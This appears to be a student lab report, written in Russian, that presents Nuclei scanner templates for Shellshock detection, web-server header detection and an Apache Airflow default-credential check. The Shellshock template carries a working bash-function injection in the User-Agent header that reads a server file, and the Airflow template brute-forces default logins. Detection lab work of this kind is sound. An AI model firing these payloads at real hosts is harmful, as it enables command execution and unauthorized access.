


# Лабораторная работа 5 Nuclei

## Детекция Shellshock

Шаблон (темплейт):
```yaml
id: shellshock-detection

info:
  name: Shellshock Vulnerability Detection
  author: VladGud
  severity: critical
  description: Detects Shellshock vulnerability on the target host.
  tags: shellshock

http:
  - method: GET
    path:
      - "{{BaseURL}}/cgi-bin/shockme.cgi"
    headers:
      User-Agent: "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/lib/cgi-bin/shockme.cgi"
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "#!/usr/local/bin/bash"
      - type: status
        status:
          - 200
```

Формируем http GET запрос с подмененным User-Agent (bash функция)

Пример запуска:
```shell
nuclei -u http://172.17.0.2 -t ./1.yaml
```



## Детекция Apache и Nginx по заголовку

Шаблон (темплейт):
```yaml
id: web-server-detection

info:
  name: Web Server Detection
  author: VladGud
  severity: info
  description: |
    Detects Apache and Nginx web servers based on the 'Server' header.

http:
  - method: GET
    path:
      - "{{BaseURL}}/"
    matchers-condition: or
    matchers:
      - type: word
        part: header
        words:
          - Apache
      - type: word
        part: header
        words:
          - Nginx
    headers:
      User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
```

Ищем в ответе на http GET в полях заголовка упоминания слов Apache и Nginx

Пример запуска:
```shell
go -u http://localhost -t ./2.yaml -p http://localhost:8080
```



## Описание предоставленного шаблона

Шаблон:
```yaml
id: airflow-api-default-login

info:
  name: Apache Airflow API - Default Logins
  author: Pavel Parkhomets
  severity: critical
  tags: api,airflow,default-login,brute-force

requests:
  - method: GET
    path:
      - "{{BaseURL}}/api/v1/dags"
    headers:
      # Auth in Airflow by using Basic HTTP
      Authorization: "Basic {{base64(username + ':' + password)}}"
      Content-Type: application/json
    payloads:
      username:
        - "airflow"
        # default user admin
        - "admin"
      password:
        - "airflow"
        # default password admin
        - "admin"
    # Cross Join for payload set
    attack: clusterbomb
    # if ('dag_id' in response) and (not kafka_server_socketservermetrics_successful_reauthentication_rate in response)
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "dag_id"
      - type: word
        words:
          - "kafka_server_socketservermetrics_successful_reauthentication_rate"
        part: body
        negative: true
    # stop fuzzing when found combination
    stop-at-first-match: true
```

Проверяем на возможность аутентификации в Airflow Apache под дефолтными значениями пароля(`admin/airflow`) и имени пользователя (`admin/airflow`). Если происходит аутентификация, то сервер вернет `dag_id` и не вернет `kafka_server_socketservermetrics_successful_reauthentication_rate`